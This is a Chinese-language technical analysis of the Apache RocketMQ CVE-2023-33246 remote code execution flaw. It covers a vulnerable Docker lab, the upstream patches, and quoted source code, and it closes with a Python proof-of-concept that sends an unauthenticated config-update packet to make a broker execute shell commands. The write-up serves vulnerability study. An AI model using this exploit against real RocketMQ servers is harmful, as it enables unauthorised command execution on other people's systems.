









# Apache RocketMQ RCE 漏洞分析

## 漏洞描述

- 从漏洞描述中可以看到此次漏洞的触发点有两个关键之处
  - `lack permission verification`
  - `using the update configuration function to execute commands as the system users`




## 漏洞复现

### Docker环境

- 拉取`docker`镜像

```shell
docker pull apache/rocketmq:5.1.0
docker pull apacherocketmq/rocketmq-console:2.0.0
```

- 启动`broker`、`namesrv`、`console`

```shell
docker run -dit -p 9876:9876 -p 10909:10909 --name mqsrv -e "MAX_POSSIBLE_HEAP=100000000" apache/rocketmq:5.1.0 sh mqnamesrv /bin/bash
```

```shell
docker run -dit -p 10909:10909 -p 10911:10911 --name mqbroker --restart=always --link mqsrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -e "MAX_POSSIBLE_HEAP=200000000" apache/rocketmq:5.1.0 sh mqbroker -c /home/rocketmq/rocketmq-5.1.0/conf/broker.conf
```

```shell
docker run -dit --name mqconsole -p 8080:8080 -e "JAVA_OPTS=-Drocketmq.config.namesrvAddr=mqsrv:9876 -Drocketmq.config.isVIPChannel=false" apacherocketmq/rocketmq-console:2.0.0
```

### Bin环境

- 官网下载对应版本的二进制包后直接运行

```bash
/bin/bash mqbroker -n 127.0.0.1:9876
/bin/bash mqnamesrv
```

### Attack

- 这里利用工具[CVE-2023-33246](https://github.com/Le1a/CVE-2023-33246)来进行复现攻击




## 漏洞分析

- 第一次补丁，[Make configPath unable to update at runtime](https://github.com/apache/rocketmq/pull/6733/files)，此次补丁对三个文件中添加了黑名单来进行修复`updateConfig`功能实现时存在的漏洞，黑名单有
  - `brokerConfigPath`
  - `configStorePath`
  - `kvConfigPath`
  - `configStorePathName`







- 第二次补丁，[Remove filter server module](https://github.com/apache/rocketmq/pull/6749/files)，此次补丁直接移除了`filter server`模块，在删除的代码中存在此次漏洞触发的核心点
- 在下面的代码中，`FilterServerManager#buildStartCommand`函数可以构造命令执行的语句，接着在`FilterServerManager#createFilterServer`方法中，满足`more>0`条件后即可调用`FilterServerUtil#callShell`来执行命令，从而造成命令执行漏洞

```java
package org.apache.rocketmq.broker.filtersrv;

import ...

public class FilterServerManager {

    ...
    public void createFilterServer() {
        int more =
            this.brokerController.getBrokerConfig().getFilterServerNums() - this.filterServerTable.size();
        String cmd = this.buildStartCommand();
        for (int i = 0; i < more; i++) {
            FilterServerUtil.callShell(cmd, log);
        }
    }

    private String buildStartCommand() {
        String config = "";
        if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
            config = String.format("-c %s", BrokerStartup.CONFIG_FILE_HELPER.getFile());
        }

        if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
            config += String.format(" -n %s", this.brokerController.getBrokerConfig().getNamesrvAddr());
        }

        if (NetworkUtil.isWindowsPlatform()) {
            return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
                this.brokerController.getBrokerConfig().getRocketmqHome(),
                config);
        } else {
            return String.format("sh %s/bin/startfsrv.sh %s",
                this.brokerController.getBrokerConfig().getRocketmqHome(),
                config);
        }
    }
    ...
}

```

```java
package org.apache.rocketmq.broker.filtersrv;

import org.apache.rocketmq.logging.org.slf4j.Logger;

public class FilterServerUtil {
    public static void callShell(final String shellString, final Logger log) {
        Process process = null;
        try {
            String[] cmdArray = splitShellString(shellString);
            process = Runtime.getRuntime().exec(cmdArray);
            process.waitFor();
            log.info("CallShell: <{}> OK", shellString);
        } catch (Throwable e) {
            log.error("CallShell: readLine IOException, {}", shellString, e);
        } finally {
            if (null != process)
                process.destroy();
        }
    }

    private static String[] splitShellString(final String shellString) {
        return shellString.split(" ");
    }
}

```

- 根据上文对补丁的分析，来看看此次漏洞利用的一个过程
- 首先在`org.apache.rocketmq.namesrv.processor.DefaultRequestProcessor#updateConfig`方法中可以解析请求包中的`body`，接着会更新配置，此处存在一个文件写入漏洞

```java
private RemotingCommand updateConfig(ChannelHandlerContext ctx, RemotingCommand request) {
    if (ctx != null) {
        log.info("updateConfig called by {}", RemotingHelper.parseChannelRemoteAddr(ctx.channel()));
    }

    final RemotingCommand response = RemotingCommand.createResponseCommand(null);

    byte[] body = request.getBody();
    if (body != null) {
        String bodyStr;
        try {
            bodyStr = new String(body, MixAll.DEFAULT_CHARSET);
        } catch (UnsupportedEncodingException e) {
            log.error("updateConfig byte array to string error: ", e);
            response.setCode(ResponseCode.SYSTEM_ERROR);
            response.setRemark("UnsupportedEncodingException " + e);
            return response;
        }

        Properties properties = MixAll.string2Properties(bodyStr);
        if (properties == null) {
            log.error("updateConfig MixAll.string2Properties error {}", bodyStr);
            response.setCode(ResponseCode.SYSTEM_ERROR);
            response.setRemark("string2Properties error");
            return response;
        }

        this.namesrvController.getConfiguration().update(properties);
    }

    response.setCode(ResponseCode.SUCCESS);
    response.setRemark(null);
    return response;
}
```

```java
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}

public void persist() {
    try {
        readWriteLock.readLock().lockInterruptibly();

        try {
            String allConfigs = getAllConfigsInternal();

            MixAll.string2File(allConfigs, getStorePath());
        } catch (IOException e) {
            log.error("persist string2File error, ", e);
        } finally {
            readWriteLock.readLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("persist lock error");
    }
}
```

```java
public static synchronized void string2File(final String str, final String fileName) throws IOException {

    String bakFile = fileName + ".bak";
    String prevContent = file2String(fileName);
    if (prevContent != null) {
        string2FileNotSafe(prevContent, bakFile);
    }

    string2FileNotSafe(str, fileName);
}

public static void string2FileNotSafe(final String str, final String fileName) throws IOException {
    File file = new File(fileName);
    File fileParent = file.getParentFile();
    if (fileParent != null) {
        fileParent.mkdirs();
    }
    IOTinyUtils.writeStringToFile(file, str, "UTF-8");
}
```

- 根据此思路，可以通过更新配置来控制上文补丁二中的命令执行中的参数，从而来达到命令执行的目的
- 追踪一下`FilterServerManager#createFilterServer`方法如何被触发，先跟进`FilterServerManager#start`方法



- 跟进一下`FilterServerManager#start`方法在哪被调用，跟进`BrokerController#startBasicService`方法，再跟进到`BrokerController#start`方法，至此，构成了一条完整的利用链



- 抓一下数据交互时的流量包，分析流量包发现，在`RocketMQ`协议传输的过程中，主要包含四个部分：协议总长度、`JSON`数据长度、`JSON`数据和`BODY`数据



- 其中`JSON`数据中的`code`字段的值代表调用的不同功能，具体实现在`org.apache.rocketmq.namesrv.processor.DefaultRequestProcessor`类中

```java
switch (request.getCode()) {
    case RequestCode.PUT_KV_CONFIG:
        return this.putKVConfig(ctx, request);
    case RequestCode.GET_KV_CONFIG:
        return this.getKVConfig(ctx, request);
    case RequestCode.DELETE_KV_CONFIG:
        return this.deleteKVConfig(ctx, request);
    case RequestCode.QUERY_DATA_VERSION:
        return this.queryBrokerTopicConfig(ctx, request);
    case RequestCode.REGISTER_BROKER:
        return this.registerBroker(ctx, request);
    case RequestCode.UNREGISTER_BROKER:
        return this.unregisterBroker(ctx, request);
    case RequestCode.BROKER_HEARTBEAT:
        return this.brokerHeartbeat(ctx, request);
    case RequestCode.GET_BROKER_MEMBER_GROUP:
        return this.getBrokerMemberGroup(ctx, request);
    case RequestCode.GET_BROKER_CLUSTER_INFO:
        return this.getBrokerClusterInfo(ctx, request);
    case RequestCode.WIPE_WRITE_PERM_OF_BROKER:
        return this.wipeWritePermOfBroker(ctx, request);
    case RequestCode.ADD_WRITE_PERM_OF_BROKER:
        return this.addWritePermOfBroker(ctx, request);
    case RequestCode.GET_ALL_TOPIC_LIST_FROM_NAMESERVER:
        return this.getAllTopicListFromNameserver(ctx, request);
    case RequestCode.DELETE_TOPIC_IN_NAMESRV:
        return this.deleteTopicInNamesrv(ctx, request);
    case RequestCode.REGISTER_TOPIC_IN_NAMESRV:
        return this.registerTopicToNamesrv(ctx, request);
    case RequestCode.GET_KVLIST_BY_NAMESPACE:
        return this.getKVListByNamespace(ctx, request);
    case RequestCode.GET_TOPICS_BY_CLUSTER:
        return this.getTopicsByCluster(ctx, request);
    case RequestCode.GET_SYSTEM_TOPIC_LIST_FROM_NS:
        return this.getSystemTopicListFromNs(ctx, request);
    case RequestCode.GET_UNIT_TOPIC_LIST:
        return this.getUnitTopicList(ctx, request);
    case RequestCode.GET_HAS_UNIT_SUB_TOPIC_LIST:
        return this.getHasUnitSubTopicList(ctx, request);
    case RequestCode.GET_HAS_UNIT_SUB_UNUNIT_TOPIC_LIST:
        return this.getHasUnitSubUnUnitTopicList(ctx, request);
    case RequestCode.UPDATE_NAMESRV_CONFIG:
        return this.updateConfig(ctx, request);
    case RequestCode.GET_NAMESRV_CONFIG:
        return this.getConfig(ctx, request);
    case RequestCode.GET_CLIENT_CONFIG:
        return this.getClientConfigs(ctx, request);
    default:
        String error = " request type " + request.getCode() + " not supported";
        return RemotingCommand.createResponseCommand(RemotingSysResponseCode.REQUEST_CODE_NOT_SUPPORTED, error);
}
```

- 在`org.apache.rocketmq.remoting.protocol.RequestCode`类中可以找到字段对应的数值，可以看到`UPDATE_BROKER_CONFIG`的`code`字段的值为`25`



- 因此，通过调整`code`字段的值可以来调用不同的功能，可以通过发送设定好的数据包，来达到命令执行的目的

```python
import socket, binascii

client = socket.socket()
client.connect(('127.0.0.1', 10911))

json = '{"code":25,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='filterServerNums=1\nnamesrvAddr=127.0.0.1:9876\nrocketmqHome=1'.encode('utf-8')

json_lens = int(len(binascii.hexlify(json).decode('utf-8')) / 2)
part1 = '00000000' + str(hex(json_lens))[2:]
all_lens = int(4 + len(binascii.hexlify(body).decode('utf-8')) / 2 + json_lens)
part2 = '00000000' + str(hex(all_lens))[2:]
data = part2[-8:] + part1[-8:] + binascii.hexlify(json).decode('utf-8') + binascii.hexlify(body).decode('utf-8')

client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

